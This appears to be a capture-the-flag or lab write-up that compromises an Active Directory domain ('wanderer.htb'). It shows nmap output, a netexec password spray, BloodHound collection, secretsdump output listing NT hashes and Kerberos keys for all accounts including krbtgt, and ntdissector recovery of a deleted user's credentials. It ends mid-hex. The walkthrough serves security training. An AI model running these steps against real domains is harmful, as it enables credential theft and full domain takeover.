


As usual I will start by checking all the open services over the TCP protocoll via Rustscan and NMAP:

```bash
Scanned at 2026-04-13 12:12:07 CEST for 103s

PORT      STATE SERVICE           REASON         VERSION
53/tcp    open  domain            syn-ack ttl 64 Simple DNS Plus
88/tcp    open  kerberos-sec      syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2026-04-13 10:11:52Z)
135/tcp   open  msrpc             syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn       syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap              syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: wanderer.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?     syn-ack ttl 64
464/tcp   open  kpasswd5?         syn-ack ttl 64
593/tcp   open  ncacn_http        syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?          syn-ack ttl 64
3268/tcp  open  ldap              syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: wanderer.htb, Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl? syn-ack ttl 64
5985/tcp  open  http              syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=WANDERER-DC01
| Subject Alternative Name: DNS:WANDERER-DC01, DNS:WANDERER-DC01
| Issuer: commonName=WANDERER-DC01
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-02-27T14:29:32
| Not valid after:  2028-02-27T14:29:32
| MD5:     8275 0257 3230 7cf4 042c c68c dd7e bd8f
| SHA-1:   ca71 38f6 541f 2a35 9903 c640 6d82 0f8e 774e 509b
| SHA-256: 8c99 ebda 76dc 42dd 16cb 99bb 961d 8e08 f186 203c 0da0 24bf 0a45 9d29 81d3 95e7
| -----BEGIN CERTIFICATE-----
| MIIFKTCCAxGgAwIBAgIQZbElLJfwEqVFHDpcnzXuIjANBgkqhkiG9w0BAQsFADAY
| MRYwFAYDVQQDDA1XQU5ERVJFUi1EQzAxMB4XDTI1MDIyNzE0MjkzMloXDTI4MDIy
| NzE0MjkzMlowGDEWMBQGA1UEAwwNV0FOREVSRVItREMwMTCCAiIwDQYJKoZIhvcN
| AQEBBQADggIPADCCAgoCggIBAL7TEICxpsHxBsESY12TJ39AebN/mdF4XW0JfM6q
| NT2lMQGZ5ockUMhBF9kSFuKg5nAdp32FfwL40By1BePkffwbNiTumaOqCO9Sg0AX
| zH6ZKM6B1jY/24xy3myV02j6gfGTFImd402JOuhvNmH5bBZR2WCQWDXvUHNUPFJV
| zUc3NCo9eC/7LrZoVpeiiyt0/MFn+ZLR9TeMoqkRzGW5xl9IMdHrCEcnVvrU89ze
| 74redybn45a6FvECuIMZYZugjII7KOQrYq+KTE9MQu1JX0KcWPZVKkCXvi1DHxw2
| v6rNinSqpPuWEWPWyZAvUwkEY7svpAdXWzJwRoBagSHHT7eJnNIYdrlRJHJ9+OOy
| 7zXVrXjcAGpXzM1A/W3z2FkzB9Zvavgmt07OCkEzylYIOUzwWRNDRm0fNMculoOL
| tgUJJ+5cvhHLpxN3ja+B2ueVL7dei2EyeqzZD2nnqeRlVzQzfpu3xhg6r7VY/AXO
| 6tP+pOm1pCxaPQjD06Ya99VKlCHOl6HVvfPYj6qfcurtbuSYtBCkfKuxObeAlTC0
| /nlAZie3zQx/LoGci2afWuI0G3MBwUzEZ2xmZwk+g02NN8olMRD+4njI7ppfFmlS
| 5A263Io9hsX2cxWw7smy5qB40ca9ub58+NdmFca06BIOKTaoBbOUkhxHOOydT9X6
| Cd5JAgMBAAGjbzBtMA4GA1UdDwEB/wQEAwIFoDATBgNVHSUEDDAKBggrBgEFBQcD
| ATAnBgNVHREEIDAegg1XQU5ERVJFUi1EQzAxgg1XQU5ERVJFUi1EQzAxMB0GA1Ud
| DgQWBBTMtZ0SyCMUWZpESuvDNVKdS+2IEjANBgkqhkiG9w0BAQsFAAOCAgEAVhjZ
| xFbCKtkWv55gcStCW2Icv0C1u1mZQ42sn/ppnv64txDuz+QsSVdxdIRsfYRR/3M5
| RYUK5styk2CcVWYle13dnANBkyDgi3t/hKFUdHKThlWOr5eldH/0Rko8s6TrA201
| EFfAlzt+SsAYuiw32o9f5osZlqiV6hjZ0CBhaQzcjc63hNoQEjG0ujEWO63wr/R9
| OhfTi2e+qxB4RUMd2tdJhlm3CZoEfNVV38OHX4QXEaSBbRtjzySzBcLUGfHDOxXQ
| 70+asm0lows0cj50W1IvCkltbEWwET1QORthVnaSolqOVj+7Qp6tdgr3TjmGd5WN
| WIbk+zKeK2FRr0vsEH94unGQ/oHcOXfKFstZvT3WtvWv6mWaxVb/mGQSJa5d3Qmr
| IowGcF27/wVb3qnacA63YBZ70xconAV103f6zt2JnRvCZ4P+m7al9JgmUFvf3Atm
| hyL1awM+Rj0mZxqEDYBS5A1Nhv4CAGNrh5vzIba0OC1VFy+RajUXTkvkGzfGMRfE
| 6K7/BG9E1aJnT0NuL5nqpVIEsEcD1wEtfU7XiNhQDLbkWhCXXgtc0kUXvcPKNW7j
| VY7XMMreQSVtfBT9mTXVFmbOFq4Uh1TsHkiEvMp87+uIfIJsxoTFnZYdZ6eTnyUS
| 1FX7cH5/7nbGVp/WMkuEwEO03yHKV3Eq0UnMYlU=
|_-----END CERTIFICATE-----
9389/tcp  open  mc-nmf            syn-ack ttl 64 .NET Message Framing
49664/tcp open  msrpc             syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc             syn-ack ttl 64 Microsoft Windows RPC
49674/tcp open  ncacn_http        syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49682/tcp open  msrpc             syn-ack ttl 64 Microsoft Windows RPC
49686/tcp open  msrpc             syn-ack ttl 64 Microsoft Windows RPC
49698/tcp open  msrpc             syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/13%OT=53%CT=%CU=%PV=Y%G=N%TM=69DCC1DE%P=x86_64-pc-linux-gnu)
SEQ(SP=F5%GCD=1%ISR=105%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=FC%GCD=1%ISR=105%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 24.173 days (since Fri Mar 20 07:04:29 2026)
TCP Sequence Prediction: Difficulty=252 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: WANDERER-DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 33258/tcp): CLEAN (Timeout)
|   Check 2 (port 24060/tcp): CLEAN (Timeout)
|   Check 3 (port 18276/udp): CLEAN (Timeout)
|   Check 4 (port 27047/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: WANDERER-DC01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:b7:e2 (VMware)
| Names:
|   WANDERER-DC01<00>    Flags: <unique><active>
|   WANDERER<00>         Flags: <group><active>
|   WANDERER<1c>         Flags: <group><active>
|   WANDERER-DC01<20>    Flags: <unique><active>
|   WANDERER<1b>         Flags: <unique><active>
| Statistics:
|   00 50 56 94 b7 e2 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: -22s
| smb2-time: 
|   date: 2026-04-13T10:12:44
|_  start_date: N/A

```

# AD

Now seems like the katja user is also valid in the DC:

```bash
$ netexec smb 172.16.0.0/24 -u katja -p Boneyard87!       
SMB         172.16.0.150    445    WIN01            [*] Windows 10 / Server 2019 Build 19041 x64 (name:WIN01) (domain:wanderer.htb) (signing:False) (SMBv1:None)
SMB         172.16.0.5      445    WANDERER-DC01    [*] Windows Server 2022 Build 20348 x64 (name:WANDERER-DC01) (domain:wanderer.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.0.150    445    WIN01            [+] wanderer.htb\katja:Boneyard87! 
SMB         172.16.0.5      445    WANDERER-DC01    [+] wanderer.htb\katja:Boneyard87! 
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

```

in the meantime I will perform a quick scan over the AD dump with Bloodhound-python toolkit:

```bash
─$ bloodhound-ce-python -ns 172.16.0.5 -d wanderer.htb -u katja -p Boneyard87! -c All --zip --dns-tcp
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: wanderer.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (wanderer-dc01.wanderer.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: wanderer-dc01.wanderer.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: wanderer-dc01.wanderer.htb
INFO: Found 10 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WIN01.wanderer.htb
INFO: Querying computer: WANDERER-DC01.wanderer.htb
INFO: Done in 00M 05S
INFO: Compressing output into 20260413124257_bloodhound.zip

```

Now after having pwned all the users on FTS01 I can appure now that these users has the same password in ad as well:



# Last stretch

Now from the NTDS backup you can parse and obtain any flag hash needed from the DC:

```bash
impacket-secretsdump -system NTDS/registry/SYSTEM -ntds NTDS/Active\ Directory/ntds.dit LOCAL -history
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xf678b2597ade18d88784ee424ddc0d1a
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 6d8730f9dff6ba09e6fb50538c8a6798
[*] Reading and decrypting hashes from NTDS/Active Directory/ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:80b095f7a736ff8356cf02487afd9377:::
Administrator_history0:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WANDERER-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:ffbea6fc2467295aa576c4e26e831c2c:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ee24d3fc8ec61f595f0b5676fe058a83:::
krbtgt_history0:502:aad3b435b51404eeaad3b435b51404ee:b5ca59b606a13445af2043409d2c0086:::
wanderer.htb\benny:1103:aad3b435b51404eeaad3b435b51404ee:862f7f6e88a1a0dc7c028d34dd22eaf9:::
wanderer.htb\benny_history0:1103:aad3b435b51404eeaad3b435b51404ee:c63407eac237a49a7e559f453cc6a4df:::
wanderer.htb\ghoul:1104:aad3b435b51404eeaad3b435b51404ee:141dca514fbef16b7a8321865ee5baec:::
wanderer.htb\ghoul_history0:1104:aad3b435b51404eeaad3b435b51404ee:7375cef738882d6c3a4592217951f491:::
wanderer.htb\gizmo:1105:aad3b435b51404eeaad3b435b51404ee:10ef31e73389075c4459e1aab1e6d42c:::
wanderer.htb\gizmo_history0:1105:aad3b435b51404eeaad3b435b51404ee:a03a81f6cae9b2b6c8800080f100490b:::
wanderer.htb\gizmo_history1:1105:aad3b435b51404eeaad3b435b51404ee:e30d0ad268e54602149d19d34310b9fc:::
wanderer.htb\izo:1106:aad3b435b51404eeaad3b435b51404ee:56f2b6cba2c55c665e77fa0ad7fcfe2e:::
wanderer.htb\izo_history0:1106:aad3b435b51404eeaad3b435b51404ee:5e9f420ec8a5986b303dd1a17519d952:::
wanderer.htb\katja:1107:aad3b435b51404eeaad3b435b51404ee:15f05d4baefa87b5e1c68b119b31ee8b:::
wanderer.htb\katja_history0:1107:aad3b435b51404eeaad3b435b51404ee:c90f90288b18e2e365eeda3ed2b28a67:::
wanderer.htb\house:1108:aad3b435b51404eeaad3b435b51404ee:7e114269c2e547f505b611cad9cb81ee:::
wanderer.htb\house_history0:1108:aad3b435b51404eeaad3b435b51404ee:17716828e64a41e862c092fa4150f191:::
wanderer.htb\house_history1:1108:aad3b435b51404eeaad3b435b51404ee:743f92258adb2e728dcaf76780127e09:::
wanderer.htb\ansible:1110:aad3b435b51404eeaad3b435b51404ee:cebb2479192aee8b923140b9b32b71ea:::
wanderer.htb\ansible_history0:1110:aad3b435b51404eeaad3b435b51404ee:8589f80ed59bd715193c9e6de4c4e7fe:::
WIN01$:1111:aad3b435b51404eeaad3b435b51404ee:aede8ac08ab3b63135ee52b93c99c13e:::
WIN01$_history0:1111:aad3b435b51404eeaad3b435b51404ee:a2175f1ce9d3b0db0245d6d940e08706:::
[*] Kerberos keys from NTDS/Active Directory/ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:7abdc1fc0ee32075b6c2eda7f25f84fe5353c0301528ee541f310d6a6e5a0b23
Administrator:aes128-cts-hmac-sha1-96:79d421a9a843f440d4e50788d5640339
Administrator:des-cbc-md5:cd3440e03289d340
WANDERER-DC01$:aes256-cts-hmac-sha1-96:b54d7a7c96c23aa46e9b831ad1856dcc130716c3a0a0a4df386b4fef8b1f624f
WANDERER-DC01$:aes128-cts-hmac-sha1-96:70a67581e0355edf0cdb96b0af5891a5
WANDERER-DC01$:des-cbc-md5:e552803ef80ea1d6
krbtgt:aes256-cts-hmac-sha1-96:dfae2668b89dafd2cdc69d7daa5bf0fec536b0e11680b89d10fb0dc8077955c7
krbtgt:aes128-cts-hmac-sha1-96:a1c80c2404d9a64ce05e65aaf67f9a26
krbtgt:des-cbc-md5:dff23b68dac41349
wanderer.htb\benny:aes256-cts-hmac-sha1-96:32a50a164b63cde984a2e704c08ec9cafb848f7d21b8030e85190315e63caf6d
wanderer.htb\benny:aes128-cts-hmac-sha1-96:2cfe131f8f32933a94b5ea626b811494
wanderer.htb\benny:des-cbc-md5:16cb40313e79c1ba
wanderer.htb\ghoul:aes256-cts-hmac-sha1-96:bf8bceb108d75b0264a4f397e901c059b37dee0b8b31633faa4c2dd31e7b589a
wanderer.htb\ghoul:aes128-cts-hmac-sha1-96:97d8f77412e54630f686d22160c04123
wanderer.htb\ghoul:des-cbc-md5:9b6783ec75a7bcad
wanderer.htb\gizmo:aes256-cts-hmac-sha1-96:88c50093b75177ffe60f7420082fc843f0319ea8e57dd523b24ccfb4594ba82b
wanderer.htb\gizmo:aes128-cts-hmac-sha1-96:d771da52616901c8db089e0d8f227b60
wanderer.htb\gizmo:des-cbc-md5:75dc07b52c8c8a54
wanderer.htb\izo:aes256-cts-hmac-sha1-96:d65a9a10f721b0c92d9020fa283f8c460d78e0a6b6be5450cbe5560757cd6491
wanderer.htb\izo:aes128-cts-hmac-sha1-96:bff354c5558d86098fce928efe878f90
wanderer.htb\izo:des-cbc-md5:2975ea6e89135bc4
wanderer.htb\katja:aes256-cts-hmac-sha1-96:13471b37c7d0d2285203abe1a7c0cca30c87e34f643727e3ead4a8942cbf38c4
wanderer.htb\katja:aes128-cts-hmac-sha1-96:98eb2fac8ef9b078cf04b5700110869e
wanderer.htb\katja:des-cbc-md5:e61a57853832baf4
wanderer.htb\house:aes256-cts-hmac-sha1-96:e59a8652c692e60b7b14b187af9b619c5fc972488d64e4a36bfe215b6784485d
wanderer.htb\house:aes128-cts-hmac-sha1-96:6341dd7906e32ccd7490dd45d5f82b68
wanderer.htb\house:des-cbc-md5:6880ae13b6bc4a6d
wanderer.htb\ansible:aes256-cts-hmac-sha1-96:8f155093a1c0d9ae7476bd12536ac5d58091d21695666315cf7423d9259b5c25
wanderer.htb\ansible:aes128-cts-hmac-sha1-96:d4731e67635f061701d12a6be856b8f2
wanderer.htb\ansible:des-cbc-md5:3167d09d455713ce
WIN01$:aes256-cts-hmac-sha1-96:0a8d8c95f96e237895ff12a79f68fd6c834d5466dafa866019f347247494fb30
WIN01$:aes128-cts-hmac-sha1-96:fa9ca2fedf4c8a39f6050e3b3e66aec9
WIN01$:des-cbc-md5:7a16b0ec1afbe540
[*] Cleaning up... 

```

# Back on  Track

So here I have been thinking and  thinking so I asked AI to give me a nudge of what it might be and I concentrated my efforts on the windows side so far I have executed:

- Checked for password history in the NTDS
- Checked for tombstone objects from AD
- Checked for delete items in WIN01
- Done a major password/hash spray from the current list/NDTS I own

&nbsp;

None of them worked out so I asked AI and he suggested to use [this](https://github.com/almandin/ntdsdotsqlite) tool which allows to convert the DIT file to a more "surfable" sqlite database.


This data unfortunately did not hold juicy data so far like deleted items but i see that Ansible account is user for password provisioning.



Now what i am really interested into is the deleted items and apparently there is 2 tools that might help [this](https://github.com/trustedsec/DitExplorer) and [this](https://github.com/synacktiv/ntdissector/), where one works only on Linux and the other only on Windows.

I am testining the python version:

```bash
ntdissector -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -ts -f user -keepDel -outputdir ./ntddissect 
[2026-04-18 10:42:17] [*] PEK # 0 found and decrypted: 6d8730f9dff6ba09e6fb50538c8a6798
[2026-04-18 10:42:17] [*] Filtering records with this list of object classes :  ['user']
100%|█████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 3709/3709 [00:00<00:00, 19157.71rec./s]
[2026-04-18 10:42:18] [*] Finished, matched 11 records out of 3709
[2026-04-18 10:42:18] [*] Processing 11 serialization tasks
100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 11/11 [00:00<00:00, 1169.31rec./s]
```

And since I am interested into deleted user object I see traces on an user that has been deleted but it is also part of the domain admins?

```bash
$ cat user.json | jq -c 'select(.mail == "zax@wanderer.htb" or .maiil == "ansible@wanderer.htb")' | jq
{
  "givenName": "Zaxxy",
  "description": "War Operation Plan Response 2.0",
  "sn": "McZaxFace",
  "userPrincipalName": "zax@wanderer.htb",
  "dSCorePropagationData": "1601-01-01T00:00:00+00:00",
  "userAccountControl": "NORMAL_ACCOUNT | DONT_EXPIRE_PASSWORD",
  "mail": "zax@wanderer.htb",
  "objectSid": "S-1-5-21-1677581083-3380853377-188903654-1109",
  "codePage": 0,
  "supplementalCredentials": {
    "Primary:NTLM-Strong-NTOWF": [
      "6537396636656165333735393130623931666631346634323433313037353032"
    ],
    "Primary:Kerberos-Newer-Keys": [
      "aes256-cts-hmac-sha1-96:96321cf9f6291fdd05dc65f87f50ee54f37f4051c2916d65bad02ff66e75d54b",
      "aes128-cts-hmac-sha1-96:00baae075f1ac779d4bb959416c8ef99",
      "des-cbc-md5:1ae33d80b04f9e8c"
    ],
    "Primary:Kerberos": [],
    "Packages": [
      "NTLM-Strong-NTOWF",
      "Kerberos-Newer-Keys",
      "Kerberos",
      "WDigest"
    ],
    "Primary:WDigest": [
      "7872da74ce79cfa0ea8d09dab8ea7d9d",
      "19c4bcdbeec052b9bce781cff8996bb9",
      "b4057b985a83a5f88d39f022d2b5e532",
      "7872da74ce79cfa0ea8d09dab8ea7d9d",
      "19c4bcdbeec052b9bce781cff8996bb9",
      "7f2423577c091fea1b5189720503657f",
      "7872da74ce79cfa0ea8d09dab8ea7d9d",
      "d1aba2dbc526bf01cda8f351c5153507",
      "d1aba2dbc526bf01cda8f351c5153507",
      "334984910c6d51c67228fcc633ec74f1",
      "2944d0426e5e1fef4cd51c5bb4b7ce8c",
      "d1aba2dbc526bf01cda8f351c5153507",
      "6b8c4022c9d05d615a117c3af98b1906",
      "2944d0426e5e1fef4cd51c5bb4b7ce8c",
      "6217bd8ca58b486880d8afb3d87374f7",
      "6217bd8ca58b486880d8afb3d87374f7",
      "f06139a3bdff82fde6780bf9699b58fb",
      "e46b03dccbdbdc774929f22890bd16d0",
      "b295ba82fee4d5dd981442ceea3d0e38",
      "7d7b36571e0c7d4f7d3732a37a1cf772",
      "fbe9b3f30ceeecaa396ced84b1b59eee",
      "fbe9b3f30ceeecaa396ced84b1b59eee",
      "263e1b6e2f8a2e786837722dd82ddaa8",
      "f4e19d083a12d20abf81896cc2226126",
      "f4e19d083a12d20abf81896cc2226126",
      "a352c0cc186216bcca74bb474e6a33ad",
      "d8eb0158402bbee571d12f197d994d83",
      "579865f52e1e03efb1cdb9466b723140",
      "fc7647fa1a0934f94625256cc407c0d3"
    ]
  },
  "badPasswordTime": "1601-01-01T00:00:00+00:00",
  "distinguishedName": "CN=zax\nDEL:b3677467-615b-4d83-8702-66afb16ec370,CN=Deleted Objects,DC=wanderer,DC=htb",
  "sAMAccountName": "zax",
  "objectClass": [
    "user",
    "organizationalPerson",
    "person",
    "top"
  ],
  "replPropertyMetaData": "01000000000000001e000000000000000000000001000000700be91d03000000255a22537e4dc742a645b63fca608d682d320000000000002d320000000000000300000002000000800be91d03000000255a22537e4dc742a645b63fca608d687d320000000000007d320000000000000400000001000000700be91d03000000255a22537e4dc742a645b63fca608d682d320000000000002d320000000000000d00000001000000700be91d03000000255a22537e4dc742a645b63fca608d682d320000000000002d320000000000002a00000001000000700be91d03000000255a22537e4dc742a645b63fca608d682d320000000000002d320000000000000100020001000000700be91d03000000255a22537e4dc742a645b63fca608d682d320000000000002d320000000000000200020001000000700be91d03000000255a22537e4dc742a645b63fca608d682d320000000000002d320000000000003000020001000000800be91d03000000255a22537e4dc742a645b63fca608d687d320000000000007d320000000000001901020001000000700be91d03000000255a22537e4dc742a645b63fca608d682d320000000000002d320000000000000100090002000000800be91d03000000255a22537e4dc742a645b63fca608d687d320000000000007d320000000000000800090003000000700be91d03000000255a22537e4dc742a645b63fca608d68313200000000000031320000000000001000090001000000700be91d03000000255a22537e4dc742a645b63fca608d682e320000000000002e320000000000001900090001000000700be91d03000000255a22537e4dc742a645b63fca608d682e320000000000002e320000000000003700090002000000700be91d03000000255a22537e4dc742a645b63fca608d682f320000000000002f320000000000004000090001000000700be91d03000000255a22537e4dc742a645b63fca608d682e320000000000002e320000000000005a00090002000000700be91d03000000255a22537e4dc742a645b63fca608d682f320000000000002f320000000000005e00090002000000700be91d03000000255a22537e4dc742a645b63fca608d682f320000000000002f320000000000006000090002000000700be91d03000000255a22537e4dc742a645b63fca608d682f320000000000002f320000000000006200090001000000700be91d03000000255a22537e4dc742a645b63fca608d682e320000000000002e320000000000007d00090001000000700be91d03000000255a22537e4dc742a645b63fca608d68303200000000000030320000000000009200090001000000700be91d03000000255a22537e4dc742a645b63fca608d682d320000000000002d320000000000009f00090001000000700be91d03000000255a22537e4dc742a645b63fca608d682e320000000000002e32000000000000a000090002000000700be91d03000000255a22537e4dc742a645b63fca608d682f320000000000002f32000000000000dd00090001000000700be91d03000000255a22537e4dc742a645b63fca608d682d320000000000002d320000000000002e01090002000000800be91d03000000255a22537e4dc742a645b63fca608d687d320000000000007d320000000000009002090001000000700be91d03000000255a22537e4dc742a645b63fca608d682d320000000000002d320000000000000d03090001000000800be91d03000000255a22537e4dc742a645b63fca608d687d320000000000007d320000000000000e03090002000000800be91d03000000255a22537e4dc742a645b63fca608d687d320000000000007d320000000000001308090001000000800be91d03000000255a22537e4dc742a645b63fca608d687d320000000000007d320000000000000300150001000000700be91d03000000255a22537e4dc742a645b63fca608d682d320000000000002d32000000000000",
  "pwdLastSet": "2025-03-17T19:39:28.847536+00:00",
  "primaryGroupID": 513,
  "isDeleted": 1,
  "badPwdCount": 0,
  "logonCount": 0,
  "countryCode": 0,
  "uSNChanged": 12925,
  "whenChanged": "2025-03-17T19:39:44+00:00",
  "lastLogoff": "1601-01-01T00:00:00+00:00",
  "lastLogon": "1601-01-01T00:00:00+00:00",
  "name": "zax\nDEL:b3677467-615b-4d83-8702-66afb16ec370",
  "lmPwdHistory": [
    "d0b574c889f6e8e155e0646a1f0f900d"
  ],
  "ntPwdHistory": [
    "67b1d562480d71a916d4d73072b1a91e"
  ],
  "unicodePwd": "67b1d562480d71a916d4d73072b1a91e",
  "cn": "zax\nDEL:b3677467-615b-4d83-8702-66afb16ec370",
  "instanceType": 4,
  "accountExpires": 9223372036854775807,
  "uSNCreated": 12845,
  "whenCreated": "2025-03-17T19:39:28+00:00",
  "nTSecurityDescriptor": "0100148ca0090000bc090000140000008c0000000400780002000000075a38002000000003000000be3b0ef3f09fd111b6030000f80367c1a57a96bfe60dd011a28500aa003049e2010100000000000100000000075a38002000000003000000bf3b0ef3f09fd111b6030000f80367c1a57a96bfe60dd011a28500aa003049e201010000000000010000000004001409320000000500380010000000010000000042164cc020d011a76800aa006e05290105000000000005150000001bdbfd6381ba83c9e670420b290200000500380010000000010000001020205fa579d011902000c04fc2d4cf0105000000000005150000001bdbfd6381ba83c9e670420b2902000005003800100000000100000040c20abca979d011902000c04fc2d4cf0105000000000005150000001bdbfd6381ba83c9e670420b29020000050038001000000001000000f8887003e10ad211b42200a0c968f9390105000000000005150000001bdbfd6381ba83c9e670420b290200000500380030000000010000007f7a96bfe60dd011a28500aa003049e20105000000000005150000001bdbfd6381ba83c9e670420b0502000005002c0010000000010000001db1a946ae605a40b7e8ff8a58d456d20102000000000005200000003002000005002c0030000000010000001c9ab66d2294d111aebd0000f80367c10102000000000005200000003102000005002c00300000000100000062bc0558c9bd2844a5e2856a0f4c185e01020000000000052000000031020000050028000001000001000000531a72ab2f1ed011981900aa0040529b010100000000000100000000050028000001000001000000531a72ab2f1ed011981900aa0040529b01010000000000050a000000050028000001000001000000541a72ab2f1ed011981900aa0040529b01010000000000050a000000050028000001000001000000561a72ab2f1ed011981900aa0040529b01010000000000050a000000050028001000000001000000422fba59a279d011902000c04fc2d3cf01010000000000050b00000005002800100000000100000054018de4f8bcd111870200c04fb9605001010000000000050b00000005002800100000000100000086b8b5774a94d111aebd0000f80367c101010000000000050b000000050028001000000001000000b39557e45594d111aebd0000f80367c101010000000000050b00000005002800300000000100000086b8b5774a94d111aebd0000f80367c101010000000000050a000000050028003000000001000000b29557e45594d111aebd0000f80367c101010000000000050a000000050028003000000001000000b39557e45594d111aebd0000f80367c101010000000000050a00000000002400ff010f000105000000000005150000001bdbfd6381ba83c9e670420b0002000000001800ff010f0001020000000000052000000024020000000014000000020001010000000000050b000000000014009400020001010000000000050a00000000001400ff010f00010100000000000512000000051a3c0010000000030000000042164cc020d011a76800aa006e052914cc28483714bc459b07ad6f015e5f280102000000000005200000002a02000005123c0010000000030000000042164cc020d011a76800aa006e0529ba7a96bfe60dd011a28500aa003049e20102000000000005200000002a020000051a3c0010000000030000001020205fa579d011902000c04fc2d4cf14cc28483714bc459b07ad6f015e5f280102000000000005200000002a02000005123c0010000000030000001020205fa579d011902000c04fc2d4cfba7a96bfe60dd011a28500aa003049e20102000000000005200000002a020000051a3c00100000000300000040c20